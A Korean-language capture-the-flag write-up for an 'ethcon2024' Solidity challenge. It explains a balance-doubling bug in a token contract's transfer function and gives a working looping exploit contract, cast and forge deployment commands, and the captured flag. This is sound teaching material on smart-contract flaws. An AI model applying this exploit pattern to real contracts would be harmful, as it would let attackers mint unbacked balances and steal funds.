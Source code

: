 # Intermediate: 1. wrap



**Mission**

Ethereum smart contracts require utmost caution because even the smallest mistake can lead to significant issues! Identify and exploit the vulnerability - [contract](https://sepolia.scrollscan.com/address/0x8aA661B83B69f3bc68A593fc9d7a73CAc6716753)

```solidity
pragma solidity =0.8.27;

contract Wrap {
    uint256 public decimals = 18;
    string public symbol = "wrap";
    address private _owner;
    mapping(address user => bool hasFlag) public flag;
    mapping(address user => uint256 balance) private _balances;

    function wrap() external payable {
        _balances[msg.sender] += msg.value;
    }

    function unwrap(uint256 amount) external {
        require(_balances[msg.sender] >= amount, "too big to unwrap");
        _balances[msg.sender] -= amount;
        payable(msg.sender).transfer(amount);
    }

    function balanceOf(address user) external view returns (uint256) {
        return _balances[user];
    }

    function transfer(address recipient, uint256 amount) external {
        require(recipient != address(0), "transfer to zero address");
        uint256 senderBalance = _balances[msg.sender];
        uint256 recipientBalance = _balances[recipient];
        require(senderBalance >= amount, "transfer amount exceeds balance");
        _balances[msg.sender] = senderBalance - amount;
        _balances[recipient] += recipientBalance + amount;
    }

    function buyFlag() external {
        require(flag[msg.sender] == false, "already bought a flag");
        require(_balances[msg.sender] >= 1 ether, "not enough balance");
        _balances[msg.sender] -= 1 ether;
        flag[msg.sender] = true;
    }
}
```

buyFlag의 조건을 보면, balance가 1 ether 이상이어야 문제를 해결할 수 있다. 그러나 faucet이 1 ether 이상 주지 않는다. 

취약점은 transfer 함수에서 발생한다. parameter로 받은 recipient한테, amount만큼 돈을 주는 것을 의도하고 만들었으나, 수식에 오류가 있다.

```solidity
_balances[msg.sender] = senderBalance - amount;
_balances[recipient] += recipientBalance + amount;
```

위 식에서 recipient의 잔액을 올리는 부분을 보자. recipientBalance가 0보다 크다면, recipient의 잔액이 계속 증가하게 된다. 즉 아래와 같이 작성해야 한다.

```solidity
_balances[recipient] += amount;
```

이러한 수식상의 실수로 문제가 발생하는데, 만약 recipientBalance가 0.001 ether이고 amount가 0이라 해보자. msg.sender의 balance는 줄어들지 않게 되고, recipient의 잔액은 실질적으로 아래와 같은 수식이 된다.

```solidity
_balances[recipient] += recipientBalance;
```

만약 공격자가 transfer를 반복적으로 호출한다면, recipient의 balance는 아래와 같이 지수적으로 상승할 것이다.

```solidity
0.001 + 0.001 = 0.002

0.002 + 0.002 = 0.004

0.004 + 0.004 = 0.008
.
.
.
```

이를 이용해 우리는 0.001 ether를 1 ether 이상으로 만들 수 있게 된다.

먼저 본인의 지갑 주소로, wrap 함수를 호출하면서 0.001 ether을 deposit 하자.

```solidity
 cast send 0x8aA661B83B69f3bc68A593fc9d7a73CAc6716753 "wrap()" --value 0.001ether --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY
```

그 후, 공격 코드는 아래와 같이 작성한다.

```solidity
pragma solidity =0.8.27;

interface iWrap{
	function balanceOf(address) external view returns (uint256);
	function transfer(address, uint256) external;
}

contract Solve {
	function exploit(address _target) external {

		iWrap target = iWrap(_target);

		while(target.balanceOf(tx.origin)<1 ether){
			target.transfer(tx.origin, 0);
		}
	}
}
```

본인의 잔액이 1 ether 이상이 될 때 까지 반복적으로 transfer를 호출하여 공격을 수행한다.

deploy:

```solidity
forge create Solve --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY   
```

call exploit:

```solidity
cast send 0x439Ae1C7bA0937f4A51E97172102600A216bE6e6 "exploit(address)" 0x8aA661B83B69f3bc68A593fc9d7a73CAc6716753 --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY 
```

공격에 성공하면, buyFlag를 호출해 flag를 얻는다.

call buyFlag:

```solidity
cast send 0x8aA661B83B69f3bc68A593fc9d7a73CAc6716753 "buyFlag()" --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY  
```

Flag

```solidity
ethcon2024{Lesson number one: All code can have vulnerabilities. So be cautious.}
```